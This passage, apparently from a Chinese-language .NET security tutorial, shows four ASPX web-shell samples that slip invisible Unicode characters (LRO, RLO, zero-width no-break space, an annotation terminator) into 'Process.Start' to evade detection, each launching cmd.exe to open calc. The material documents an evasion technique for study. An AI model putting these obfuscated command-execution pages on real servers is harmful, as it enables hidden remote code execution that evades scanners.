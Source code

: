 4.8 从左到右覆盖
----------

从左到右覆盖符（LRO） `U+202D、U+0000202D`，字符正向显示顺序

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Pro\u202Dcess.Start("cmd.exe","/c calc");
    }
</script>
```

4.9 从左到右覆盖
----------

从左到右覆盖符（RLO） `U+202E、U+0000202E`，它的特性是可以反转其他字符的显示顺序，比如`DotNet安全矩阵`，给每个字符前面加上\\u202E`\u202ED\u202Eo\u202Et\u202EN\u202Ee\u202Et\u202E安\u202E全\u202E矩\u202E阵`就会变成 `阵矩全安teNtoD`

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Pro\U0000202Ecess.Start("cmd.exe","/c calc");
    }
</script>
```

4.10 零宽度不间断空格
-------------

零宽度不间断空格（ZWNBSP） `U+FEFF、U+0000FEFF`，一般用于文件开头的字节顺序标记 (BOM)，在 UTF-16 中，BOM 是两个字节，Big-endian 对应的 BOM 是 0xFEFF，Little-endian 对应的 BOM 是 0xFFFE。

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Pro\uFEFFcess.Start("cmd.exe","/c calc");
    }
</script>
```

4.11 行间注解终止符
------------

行间注解终止符 `U+FFFB、U+0000FFFB`

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Pro\uFFFBcess.Start("cmd.exe","/c calc");
    }
</script>
```
